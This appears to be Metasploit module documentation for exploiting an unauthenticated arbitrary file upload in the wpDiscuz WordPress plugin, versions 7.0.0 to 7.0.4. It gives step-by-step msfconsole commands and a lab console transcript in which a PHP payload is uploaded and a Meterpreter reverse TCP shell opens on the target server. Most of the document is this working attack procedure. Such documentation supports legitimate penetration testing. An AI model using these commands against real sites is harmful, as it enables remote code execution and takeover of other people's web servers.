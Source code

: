 ## Vulnerable Application

This module exploits an arbitrary file upload in the WordPress wpDiscuz plugin
versions >= `v7.0.0` and <= `v7.0.4`. This flaw gave unauthenticated attackers
the ability to upload arbitrary files, including PHP files, and achieve remote
code execution on a vulnerable site’s server.

A vulnerable version of the wpDiscuz plugin can be downloaded from [here](https://downloads.wordpress.org/plugin/wpdiscuz.7.0.4.zip).

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/unix/webapp/wp_wpdiscuz_unauthenticated_file_upload`
4. Do: `set BLOGPATH <path>`
5. Do: `set RHOSTS <ip>`
6. Do: `run`
7. You should get a shell.

## Options

### BLOGPATH

Path to the target Wordpress blog.

## Scenarios

### Wordpress `5.7.2` with wpDiscuz `7.0.4` on Ubuntu 18.04

```
msf > use exploit/unix/webapp/wp_wpdiscuz_unauthenticated_file_upload
[*] Using configured payload php/meterpreter/reverse_tcp
msf exploit(unix/webapp/wp_wpdiscuz_unauthenticated_file_upload) > set rhost 192.168.37.135
rhost => 192.168.37.135
msf exploit(unix/webapp/wp_wpdiscuz_unauthenticated_file_upload) > set lhost 192.168.37.1
lhost => 192.168.37.1
msf exploit(unix/webapp/wp_wpdiscuz_unauthenticated_file_upload) > set blogpath index.php/2021/06/23/hello-world/
blogpath => index.php/2021/06/23/hello-world/
msf exploit(unix/webapp/wp_wpdiscuz_unauthenticated_file_upload) > run

[*] Started reverse TCP handler on 192.168.37.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[+] Payload uploaded as ksKFgaD.php
[*] Calling payload...
[*] Sending stage (39282 bytes) to 192.168.37.135
[*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.135:40444) at 2021-06-23 18:11:41 -0500
[!] This exploit may require manual cleanup of 'ksKFgaD.php' on the target

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : ubuntu
OS          : Linux ubuntu 4.18.0-15-generic #16~18.04.1-Ubuntu SMP Thu Feb 7 14:06:04 UTC 2019 x86_64
Meterpreter : php/linux
meterpreter >
```
